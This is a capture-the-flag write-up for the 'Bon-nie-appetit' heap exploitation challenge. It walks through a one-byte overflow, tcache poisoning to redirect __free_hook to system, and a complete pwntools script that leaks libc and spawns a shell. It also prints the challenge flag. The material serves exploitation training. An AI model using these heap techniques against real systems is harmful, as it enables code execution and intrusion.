

# Bon-nie-appetit

We are given the binary, dockerfile, linker and libc (libc 2.27) files.

Running `checksec`
```bash
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

## Analysis
The binary consists several features:
- `new_order` - allocate heap memory of size x (specified by the user) and write content of length x to the heap memory.
- `show_order` - displays information about an order
- `edit_order` - calculate the length of the content in the heap memory using `strlen` (y) and allows user to overwrite y chars in the heap memory
- `delete_order` - Free the allocated heap memory (Note: there is no UAF vulnerability)

This seems like a heap challenge. Usually, we will perform tcache poisoning to get RCE. However, there is no UAF vulnerability.

`edit_order` is a pretty interesting function. Suppose we allocate heap memory of size x and write x characters to the allocated memory using `new_order`, `strlen` of the content in heap memory returns value larger than x. Effectively, we have heap overflow.

Suppose we allocated heap memory of size 24:
```bash
gef➤  x/20g 0x0000563111a1d720
0x563111a1d720:	0x4141414141414141	0x4141414141414141
0x563111a1d730:	0x4141414141414141	0x208d1
```
Once again, we allocated heap memory of size 24:
```bash
gef➤  x/20g 0x0000563111a1d720
0x563111a1d720:	0x4141414141414141	0x4141414141414141
0x563111a1d730:	0x4141414141414141	0x21 <- chunk metadata
0x563111a1d740:	0x4242424242424242	0x4242424242424242
0x563111a1d750:	0x4242424242424242	0x21
```
If we run `edit_order` on the former heap, `strlen` will return 25 instead of 24. Hence we have 1-byte heap overflow. Hooray!

So, we have the ability to alter the subsequent chunk size. We can turn 1-byte heap overflow vulnerability to heap overflow vulnerability. Effectively, we can perform tcache poisoning with heap overflow.

We allocate our chunks in the following manner (later, I will explain why we allocated chunk size of 1200):
<p align="center">
    <kbd></kbd><br/>
</p>

```
gef➤  x/21g 0x0000563111a1d720-0x8
[chunk size 1200]
0x563111a1d718:	0x21	0x4141414141414141
0x563111a1d728:	0x4141414141414141	0x4141414141414141
0x563111a1d738:	0x21	0x4242424242424242
0x563111a1d748:	0x4242424242424242	0x4242424242424242
0x563111a1d758:	0x21	0x4343434343434343
0x563111a1d768:	0x4343434343434343	0x4343434343434343
0x563111a1d778:	0x41	0x4343434343434343
0x563111a1d788:	0x4343434343434343	0x4343434343434343
0x563111a1d798:	0x4343434343434343	0x4343434343434343
0x563111a1d7a8:	0x4343434343434343	0x4343434343434343
0x563111a1d7b8:	0x20851
```

Then, we use the 1-byte heap overflow to alter the order 2 chunk metadata (0x21) to 0x41
```
gef➤  x/21g 0x0000563111a1d720-0x8
0x563111a1d718:	0x21	0x4444444444444444
0x563111a1d728:	0x4444444444444444	0x4444444444444444
                ------
0x563111a1d738:	|0x41|	0x4242424242424242
                ------
0x563111a1d748:	0x4242424242424242	0x4242424242424242
0x563111a1d758:	0x21	0x4343434343434343
0x563111a1d768:	0x4343434343434343	0x4343434343434343
0x563111a1d778:	0x41	0x4343434343434343
0x563111a1d788:	0x4343434343434343	0x4343434343434343
0x563111a1d798:	0x4343434343434343	0x4343434343434343
0x563111a1d7a8:	0x4343434343434343	0x4343434343434343
0x563111a1d7b8:	0x20851
```

If we free order 2, the chunk is sent to 0x40 tcachebin instead of 0x20 tcachebin. Also, we free order 3 to send the chunk to 0x20 tcachebin.
```
gef➤  heap bin
────────────────────────────── Tcachebins for thread 1 ──────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x563111a1d760, size=0x20, flags=PREV_INUSE) 
Tcachebins[idx=2, size=0x40] count=1  ←  Chunk(addr=0x563111a1d740, size=0x40, flags=PREV_INUSE) 
───────────────────────── Fastbins for arena 0x7fb9f2936c40 ─────────────────────────
```

```
gef➤  x/21g 0x0000563111a1d720-0x8
0x563111a1d718:	0x21	0x4444444444444444
0x563111a1d728:	0x4444444444444444	0x4444444444444444
0x563111a1d738:	0x41	0x0
0x563111a1d748:	0x563111a1d010	0x4242424242424242
0x563111a1d758:	0x21	0x0
0x563111a1d768:	0x563111a1d010	0x4343434343434343
0x563111a1d778:	0x41	0x4343434343434343
0x563111a1d788:	0x4343434343434343	0x4343434343434343
0x563111a1d798:	0x4343434343434343	0x4343434343434343
0x563111a1d7a8:	0x4343434343434343	0x4343434343434343
0x563111a1d7b8:	0x20851
```

If we allocate heap memory of size 56, chunk at order 2 will be reallocated again. This time, we can heap overflow the content in order 3 (which is located in tcachebin). Well, we can do tcache poisoning by overwriting the `fd` pointer in order 3 with `__free_hook - 0x10` (-0x10 is because we want to place "/bin/sh\x00" string at the start of the heap memory and then overwrites `__free_hook` to `system`. Then, freeing `__free_hook - 0x10` chunk is effectively running `system("/bin/sh\x00")`).
```
gef➤  x/21g 0x0000563111a1d720-0x8
0x563111a1d718:	0x21	0x4444444444444444
0x563111a1d728:	0x4444444444444444	0x4444444444444444
0x563111a1d738:	0x41	0x4242424242424242
0x563111a1d748:	0x4242424242424242	0x4242424242424242
                        ----------------
0x563111a1d758:	0x21	|0x7fb9f29388d8| <- __free_hook - 0x10
                        ----------------
0x563111a1d768:	0x563111a1d010	0x4343434343434343
0x563111a1d778:	0x41	0x4343434343434343
0x563111a1d788:	0x4343434343434343	0x4343434343434343
0x563111a1d798:	0x4343434343434343	0x4343434343434343
0x563111a1d7a8:	0x4343434343434343	0x4343434343434343
0x563111a1d7b8:	0x20851
```

So now, order 3 chunk points to `__free_hook - 0x10` in 0x20 tcachebin.
```
gef➤  heap bin
────────────────────────────── Tcachebins for thread 1 ──────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x563111a1d760, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x7fb9f29388d8, size=0x0, flags=) 
```

If we allocate heap memory of size 24, chunk at order 3 will be reallocated again. Then, we allocate heap memory of size 24, heap memory will be allocated at `__free_hook - 0x10` and we can place "/bin/sh\x00" string and overwrite `__free_hook` to `system`.

Freeing `__free_hook - 0x10` chunk will effectively run `system("/bin/sh\x00")`.

Back to the question on why we allocate chunk of size 1200. As we have seen above, we use `__free_hook` which is inside libc. We allocate and free chunk of size 1200 to send chunk to unsortedbin. Then, when we allocate heap memory of size 1200, chunk at order 0 will be reallocated again. This time, we can use `show_order` to leak the `main_arena` (libc address) and use it to calculate the base libc address.

## Exploit
Idea: Send chunk of size 1200 to unsortedbin and allocate it again to leak libc address. Calculate the base libc address using the leak libc address. Allocate 2 chunks of size 24 and a chunk of size 56. Use the 1-byte heap overflow on order 1 to overwrite the order 2 chunk metadata. Free order 2 chunk to send chunk to 0x40 tcachebin. Free order 3 chunk to send chunk to 0x20 tcachebin. Allocate order 2 chunk and overwrite the `fd` pointer to `__free_hook - 0x10` in order 3 (using heap overflow). Allocate order 3 chunk. Allocate `__free_hook - 0x10` chunk to place "/bin/sh\x00" string at the start of the heap memory and overwrite `__free_hook` to `system`. Free `__free_hook - 0x10` chunk to execute `system("/bin/sh\x00")`.
```python
from pwn import *

libc = ELF('glibc/libc.so.6')
elf = ELF('./bon-nie-appetit')
r = elf.process()
#r = remote('64.227.37.214', 32556)
#pause()

def new_order(size, content):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'For how many: ', size)
    r.sendafter(b'What would you like to order: ', content)

def show_order(order_no):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'Number of order: ', order_no)

def edit_order(order_no, content):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b'Number of order: ', order_no)
    r.sendafter(b'New order: ', content)

def delete_order(order_no):
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b'Number of order: ', order_no)

# leak libc
new_order(b'1200', b'A' * 1200) # order 0
new_order(b'24', b'A' * 24) # order 1
delete_order(b'0')
new_order(b'1200', b'A' * 8) # order 0
show_order(b'0')
r.recvline()
r.recvuntil(b'Order[0] => ')
r.recv(8)
leak_libc = u64(r.recvline().strip().ljust(8, b'\x00'))
print("LEAK LIBC: " + hex(leak_libc))
base_libc = leak_libc - 0x3ebca0
print("BASE LIBC: " + hex(base_libc))
libc.address = base_libc

new_order(b'24', b'B' * 24) # order 2
new_order(b'24', b'C' * 24) # order 3
new_order(b'56', b'C' * 56) # order 4
edit_order(b'1', b'D' * 24 + p8(0x41) )
delete_order(b'2')
delete_order(b'3')
new_order(b'56', b'B' * 24 + p64(0x21) + p64(libc.sym['__free_hook'] - 0x10)) # order 2
new_order(b'24', b'C' * 24) # order 3
new_order(b'24', b'/bin/sh\x00' + p64(0) + p64(libc.sym['system'])) # order 5 (__free_hook)
delete_order(b'5') # system("/bin/sh\00")

r.interactive()
```

Flag: `HTB{0n3_l1bc_2.27_w1th_3xtr4_tc4ch3_pl3453}`